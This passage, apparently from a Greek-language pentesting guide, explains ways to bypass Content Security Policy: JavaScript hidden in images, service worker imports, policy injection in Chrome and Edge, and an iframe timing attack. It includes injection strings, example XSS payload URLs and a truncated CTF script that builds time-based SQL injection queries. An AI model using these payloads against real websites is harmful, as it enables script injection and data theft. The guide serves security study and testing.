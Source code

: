 Μπορείτε επίσης να καταχραστείτε αυτή τη διαμόρφωση για να **φορτώσετε κώδικα JavaScript που έχει εισαχθεί μέσα σε μια εικόνα**. Για παράδειγμα, αν η σελίδα επιτρέπει τη φόρτωση εικόνων από το Twitter. Μπορείτε να **δημιουργήσετε** μια **ειδική εικόνα**, να την **ανεβάσετε** στο Twitter και να καταχραστείτε το "**unsafe-inline**" για να **εκτελέσετε** έναν κώδικα JS (όπως ένα κανονικό XSS) που θα **φορτώσει** την **εικόνα**, θα **εξάγει** τον **JS** από αυτήν και θα τον **εκτελέσει**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### Με Service Workers

Η λειτουργία **`importScripts`** των service workers δεν περιορίζεται από το CSP:

{% content-ref url="../xss-cross-site-scripting/abusing-service-workers.md" %}
[abusing-service-workers.md](../xss-cross-site-scripting/abusing-service-workers.md)
{% endcontent-ref %}

### Έγχυση Πολιτικής

**Έρευνα:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### Chrome

Αν ένα **παράμετρος** που στέλνετε από εσάς είναι **επικολλημένος μέσα** στη **δήλωση** της **πολιτικής**, τότε μπορείτε να **τροποποιήσετε** τη **πολιτική** με τρόπο που την καθιστά **άχρηστη**. Μπορείτε να **επιτρέψετε το script 'unsafe-inline'** με οποιαδήποτε από αυτές τις παρακάμψεις:
```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```
Διότι αυτή η οδηγία θα **αντικαταστήσει υπάρχουσες οδηγίες script-src**.\
Μπορείτε να βρείτε ένα παράδειγμα εδώ: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

Στο Edge είναι πολύ απλό. Αν μπορείτε να προσθέσετε στο CSP μόνο αυτό: **`;_`** το **Edge** θα **απορρίψει** ολόκληρη τη **πολιτική**.\
Παράδειγμα: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert\(1\)%3C/script%3E)

### img-src \*; μέσω XSS (iframe) - Χρονική επίθεση

Παρατηρήστε την απουσία της οδηγίας `'unsafe-inline'`\
Αυτή τη φορά μπορείτε να κάνετε το θύμα **φορτώσει** μια σελίδα υπό **τον έλεγχό σας** μέσω **XSS** με ένα `<iframe`. Αυτή τη φορά θα κάνετε το θύμα να έχει πρόσβαση στη σελίδα απ' όπου θέλετε να εξάγετε πληροφορίες (**CSRF**). Δεν μπορείτε να έχετε πρόσβαση στο περιεχόμενο της σελίδας, αλλά αν με κάποιον τρόπο μπορείτε να **ελέγξετε το χρόνο που χρειάζεται η σελίδα για να φορτωθεί** μπορείτε να εξάγετε τις πληροφορίες που χρειάζεστε.

Αυτή τη φορά θα εξαχθεί ένας **σημαία**, κάθε φορά που μια **χαρακτήρας μαντεύεται σωστά** μέσω SQLi η **απόκριση** παίρνει **περισσότερο χρόνο** λόγω της συνάρτησης ύπνου. Τότε, θα μπορείτε να εξάγετε τη σημαία:
```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
x = escape(x.replace(/_/g, '\\_'));
return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`;
}

```
